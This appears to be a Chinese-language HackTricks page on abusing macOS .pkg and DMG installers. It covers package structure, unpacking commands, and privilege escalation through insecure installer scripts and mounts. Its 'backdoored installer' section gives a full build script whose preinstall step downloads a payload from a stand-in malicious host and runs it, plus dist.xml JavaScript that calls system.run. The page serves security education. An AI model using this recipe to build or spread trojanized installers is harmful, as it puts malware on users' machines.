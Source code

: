 # macOS 安装程序滥用

{% hint style="success" %}
学习和实践 AWS 黑客技术：<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">\
学习和实践 GCP 黑客技术：<img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**Telegram 群组**](https://t.me/peass) 或 **在** **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**上关注我们。**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub 仓库提交 PR 分享黑客技巧。

</details>
{% endhint %}

## Pkg 基本信息

macOS **安装包**（也称为 `.pkg` 文件）是一种文件格式，用于 macOS **分发软件**。这些文件就像一个**包含软件安装和正常运行所需一切的盒子**。

包文件本身是一个存档，包含一个**将在目标计算机上安装的文件和目录的层次结构**。它还可以包括**脚本**，在安装前后执行任务，例如设置配置文件或清理旧版本的软件。

### 层次结构

<figure><img src="../../../.gitbook/assets/Pasted Graphic.png" alt="https://www.youtube.com/watch?v=iASSG0_zobQ"><figcaption></figcaption></figure>

* **分发 (xml)**：自定义（标题、欢迎文本……）和脚本/安装检查
* **PackageInfo (xml)**：信息、安装要求、安装位置、要运行的脚本路径
* **材料清单 (bom)**：要安装、更新或删除的文件列表及文件权限
* **有效载荷 (CPIO 存档 gzip 压缩)**：从 PackageInfo 中在 `install-location` 安装的文件
* **脚本 (CPIO 存档 gzip 压缩)**：安装前和安装后脚本以及提取到临时目录以供执行的更多资源。

### 解压缩
```bash
# Tool to directly get the files inside a package
pkgutil —expand "/path/to/package.pkg" "/path/to/out/dir"

# Get the files ina. more manual way
mkdir -p "/path/to/out/dir"
cd "/path/to/out/dir"
xar -xf "/path/to/package.pkg"

# Decompress also the CPIO gzip compressed ones
cat Scripts | gzip -dc | cpio -i
cpio -i < Scripts
```
为了在不手动解压缩安装程序的情况下可视化其内容，您还可以使用免费的工具 [**Suspicious Package**](https://mothersruin.com/software/SuspiciousPackage/)。

## DMG 基本信息

DMG 文件，或称 Apple 磁盘映像，是苹果 macOS 用于磁盘映像的文件格式。DMG 文件本质上是一个 **可挂载的磁盘映像**（它包含自己的文件系统），其中包含通常被压缩且有时被加密的原始块数据。当您打开 DMG 文件时，macOS **将其挂载，就像它是一个物理磁盘**，允许您访问其内容。

{% hint style="danger" %}
请注意，**`.dmg`** 安装程序支持 **如此多的格式**，以至于在过去，一些包含漏洞的格式被滥用以获得 **内核代码执行**。
{% endhint %}

### 层级结构

<figure><img src="../../../.gitbook/assets/image (225).png" alt=""><figcaption></figcaption></figure>

DMG 文件的层级结构可以根据内容而有所不同。然而，对于应用程序 DMG，它通常遵循以下结构：

* 顶层：这是磁盘映像的根。它通常包含应用程序，并可能包含指向应用程序文件夹的链接。
* 应用程序 (.app)：这就是实际的应用程序。在 macOS 中，应用程序通常是一个包含许多单独文件和文件夹的包，这些文件和文件夹构成了该应用程序。
* 应用程序链接：这是指向 macOS 中应用程序文件夹的快捷方式。这样做的目的是方便您安装应用程序。您可以将 .app 文件拖到此快捷方式上以安装该应用程序。

## 通过 pkg 滥用进行特权提升

### 从公共目录执行

如果预安装或后安装脚本例如从 **`/var/tmp/Installerutil`** 执行，攻击者可以控制该脚本，从而在每次执行时提升特权。或者另一个类似的例子：

<figure><img src="../../../.gitbook/assets/Pasted Graphic 5.png" alt="https://www.youtube.com/watch?v=iASSG0_zobQ"><figcaption><p><a href="https://www.youtube.com/watch?v=kCXhIYtODBg">https://www.youtube.com/watch?v=kCXhIYtODBg</a></p></figcaption></figure>

### AuthorizationExecuteWithPrivileges

这是一个 [公共函数](https://developer.apple.com/documentation/security/1540038-authorizationexecutewithprivileg)，多个安装程序和更新程序将调用它以 **以 root 身份执行某些操作**。此函数接受要 **执行** 的 **文件** 的 **路径** 作为参数，然而，如果攻击者能够 **修改** 此文件，他将能够 **滥用** 其以 root 身份执行以 **提升特权**。
```bash
# Breakpoint in the function to check wich file is loaded
(lldb) b AuthorizationExecuteWithPrivileges
# You could also check FS events to find this missconfig
```
For more info check this talk: [https://www.youtube.com/watch?v=lTOItyjTTkw](https://www.youtube.com/watch?v=lTOItyjTTkw)

### 执行通过挂载

如果安装程序写入 `/tmp/fixedname/bla/bla`，可以 **创建一个挂载** 在 `/tmp/fixedname` 上，没有所有者，这样你就可以 **在安装过程中修改任何文件** 来滥用安装过程。

一个例子是 **CVE-2021-26089**，它成功地 **覆盖了一个定期脚本** 以获得 root 权限。有关更多信息，请查看这个演讲: [**OBTS v4.0: "Mount(ain) of Bugs" - Csaba Fitzl**](https://www.youtube.com/watch?v=jSYPazD4VcE)

## pkg 作为恶意软件

### 空载荷

可以仅生成一个 **`.pkg`** 文件，包含 **安装前和安装后脚本**，而没有任何实际载荷，除了脚本中的恶意软件。

### 分发 xml 中的 JS

可以在包的 **分发 xml** 文件中添加 **`<script>`** 标签，这段代码将被执行，并且可以 **使用 `system.run` 执行命令**：

<figure><img src="../../../.gitbook/assets/image (1043).png" alt=""><figcaption></figcaption></figure>

### 后门安装程序

恶意安装程序使用脚本和 dist.xml 中的 JS 代码
```bash
# Package structure
mkdir -p pkgroot/root/Applications/MyApp
mkdir -p pkgroot/scripts

# Create preinstall scripts
cat > pkgroot/scripts/preinstall <<EOF
#!/bin/bash
echo "Running preinstall script"
curl -o /tmp/payload.sh http://malicious.site/payload.sh
chmod +x /tmp/payload.sh
/tmp/payload.sh
exit 0
EOF

# Build package
pkgbuild --root pkgroot/root --scripts pkgroot/scripts --identifier com.malicious.myapp --version 1.0 myapp.pkg

# Generate the malicious dist.xml
cat > ./dist.xml <<EOF
<?xml version="1.0" encoding="utf-8"?>
<installer-gui-script minSpecVersion="1">
<title>Malicious Installer</title>
<options customize="allow" require-scripts="false"/>
<script>
<![CDATA[
function installationCheck() {
if (system.isSandboxed()) {
my.result.title = "Cannot install in a sandbox.";
my.result.message = "Please run this installer outside of a sandbox.";
return false;
}
return true;
}
function volumeCheck() {
return true;
}
function preflight() {
system.run("/path/to/preinstall");
}
function postflight() {
system.run("/path/to/postinstall");
}
]]>
</script>
<choices-outline>
<line choice="default">
<line choice="myapp"/>
</line>
</choices-outline>
<choice id="myapp" title="MyApp">
<pkg-ref id="com.malicious.myapp"/>
</choice>
<pkg-ref id="com.malicious.myapp" installKBytes="0" auth="root">#myapp.pkg</pkg-ref>
</installer-gui-script>
EOF

# Buil final
productbuild --distribution dist.xml --package-path myapp.pkg final-installer.pkg
```
## 参考文献

* [**DEF CON 27 - 解包 Pkgs 深入了解 Macos 安装包及常见安全漏洞**](https://www.youtube.com/watch?v=iASSG0\_zobQ)
* [**OBTS v4.0: "macOS 安装程序的奇妙世界" - Tony Lambert**](https://www.youtube.com/watch?v=Eow5uNHtmIg)
* [**DEF CON 27 - 解包 Pkgs 深入了解 MacOS 安装包**](https://www.youtube.com/watch?v=kCXhIYtODBg)
* [https://redteamrecipe.com/macos-red-teaming?utm\_source=pocket\_shared#heading-exploiting-installer-packages](https://redteamrecipe.com/macos-red-teaming?utm\_source=pocket\_shared#heading-exploiting-installer-packages)

{% hint style="success" %}
学习和实践 AWS 黑客技术：<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">\
学习和实践 GCP 黑客技术：<img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**电报群组**](https://t.me/peass) 或 **在** **Twitter** 🐦 **上关注我们** [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 仓库提交 PR 分享黑客技巧。

</details>
{% endhint %}
